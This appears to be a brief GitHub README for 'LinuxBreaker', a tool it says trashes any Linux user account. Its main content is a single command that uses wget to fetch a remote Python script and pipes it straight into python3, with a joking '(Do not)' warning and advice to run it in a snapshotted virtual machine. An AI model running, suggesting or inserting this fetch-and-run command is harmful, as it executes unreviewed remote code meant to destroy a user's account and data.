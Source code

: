 # LinuxBreaker
Trashes any user account in Linux*

\*Tested on various accounts on Ubuntu

(Do not) type the following command into bash:

    wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | python3

Try it out on a virtual machine. Make sure you have a recent snapshot.
